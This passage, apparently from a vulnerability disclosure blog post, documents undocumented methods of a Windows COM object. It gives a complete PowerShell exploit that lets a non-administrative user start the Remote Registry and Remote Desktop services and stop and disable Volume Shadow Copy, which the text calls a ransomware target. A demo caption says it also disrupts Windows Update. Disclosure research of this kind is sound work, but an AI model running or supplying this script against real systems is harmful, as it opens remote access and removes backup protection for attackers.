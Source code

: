 Here go prototypes of the methods:
{% highlight C %}
HRESULT SetBoostedGroupCategoryActionList(
                [in] BSTR bstrCategory, 
                [in] SAFEARRAY(BSTR) pArrayServiceName, 
                [in] SAFEARRAY(long) pArrayServiceStartType, 
                [in] SAFEARRAY(long) pArrayServiceState, 
                [in] SAFEARRAY(VARIANT_BOOL) pArrayWait);
                
HRESULT GroupBoostEnabledState([out, retval] long* pVal);
HRESULT GroupBoostEnabledState([in] long pVal);
{% endhighlight %}

And parameters of SetBoostedGroupCategoryActionList:
* bstrCategory - setting it to "UserDefined" does the job.
* pArrayServiceName - array of service names.
* pArrayServiceStartType - array of service start types. The paramater corresponds to the values of dwStartType of [ChangeServiceConfigW](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfigw) API. Value of 2 (*SERVICE_AUTO_START*) enables the service while value of 4 (*SERVICE_DISABLED*) disables it.
* pArrayServiceState - array of service states. Value of 1 stops the service, value of 2 starts it.
* pArrayWait - array of waiting parameters. Not waiting (setting everything to false) should be Ok.

The script below enables and starts two services: RemoteRegistry and Remote Desktop and stops and disables Volume Shadow Copy service.

{% highlight powershell %}
$clsid = New-Object Guid '7972960B-C3EE-4794-B28B-75F9D36760E6'
$type = [Type]::GetTypeFromCLSID($clsid)
$object = [Activator]::CreateInstance($type)

$object.Initialize(5, 0, 0, "", "")
$factory = $object.GetFactoryManager()
$boostman = $factory.GetGroupBoostManager()

#array of service names
$services = [string[]]@("RemoteRegistry", "TermService", "vss") 
#array of start types
#SERVICE_AUTO_START (2) for remote registry and rdp
#SERVICE_DISABLED (4) for vss
$starts = [int[]]@(2, 2, 4)
#array of states, 2 is "running", 1 is "stopped"
$states = [int[]]@(2, 2, 1)
#array of waits
$waits = [bool[]]@($false, $false, $false)
$boostman.SetBoostedGroupCategoryActionList("UserDefined", $services, $starts, $states, $waits)
#enable boost mode
$boostman.GroupBoostEnabledState = 1
{% endhighlight %}

### [Demo]
The following video demonstrates execution of scripts that disrupt Windows Update service, start Remote Registry and Remote Desktop services, and stop a popular ransomware target, Volume Shadow service. All of this is done from a non-administrative user account.
<video style="padding-left: 0px; padding-right: 0px" class="wrapper" controls>
  <source src="/images/killer2/KillerVuln2.mp4" />
  <source src="/images/killer2/KillerVuln2.webm" />
  <p>This browser does not support HTML5 video</p>
</video>
